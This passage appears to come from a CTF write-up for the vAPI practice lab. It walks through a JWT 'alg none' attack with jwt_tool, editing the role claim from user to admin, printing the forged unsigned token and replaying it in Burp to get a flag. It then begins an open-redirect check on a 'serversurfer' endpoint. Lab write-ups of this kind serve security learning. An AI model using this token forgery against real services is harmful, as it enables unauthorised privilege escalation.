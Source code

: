 ![JWT3](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/71729175-2a3e-4069-b08b-079849c2628e)

We can remove the token's encoding using the `-X a` flags:

```
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJ2YXBpIiwiYXVkIjoidmFwaSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkyNzU5NzM5LCJleHAiOjE2OTI3NjE1Mzl9.AWyVpwnO7MC2AEDJGmY7EanrLmIZXlj5_F3HBzWA46M  -X a
```

![JWT5](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/93ff07c4-a773-4a76-8b92-76e0d730a316)

Taking the first value which is a representation of the JWT token with the authentication signature stripped, again run it through with the `-T` flag and notice the `alg = "none"` (the JWT here has no integrity):

![JWT6](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/283dfe72-ef55-4125-a538-1da1de89b1e7)
![JWT7](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/3367b1b3-e38b-4424-b37a-5bfdb48d3e7d)

By selecting a new role, I can change the value of the role within the JWT token to `admin` from `user` and thus elevate my privileges:

```
Please select a field number:
(or 0 to Continue)
> 3

Current value of role is: user
Please enter new value and hit ENTER
> admin <------- HERE
```

![JWT8](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/30a11acf-e1e5-4040-add0-9b328a13c967)

My new JWT bearer token being `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJ2YXBpIiwiYXVkIjoidmFwaSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5Mjc1OTczOSwiZXhwIjoxNjkyNzYxNTM5fQ.`!

I send the `GET` request to Burp Repeater, replace the token under the `Authorization-Token:` header and voila, a flag:

![JWT Flag](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/9828e295-9601-4930-a727-d4152ea2b9b8)
![JWT Flag 2](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/8403262b-bf01-4c1a-ab84-3435d10f9e88)

## **ServerSurfer**

Both collection requests are showing a `GET` request in the `/vapi/serversurfer` REST API endpoint via `/vapi/serversurfer?url=https://<domain>.<tld>` exposing a base64-encoded payload under the `data` field. This is also a potential open-redirect by the looks of things:

![SS1](https://github.com/GangGreenTemperTatum/CTFs/assets/104169244/7123568c-8f9b-4c01-96b3-3abd23f37529)

I always initially use something like Oralyzer to check for open-redirect exploits:
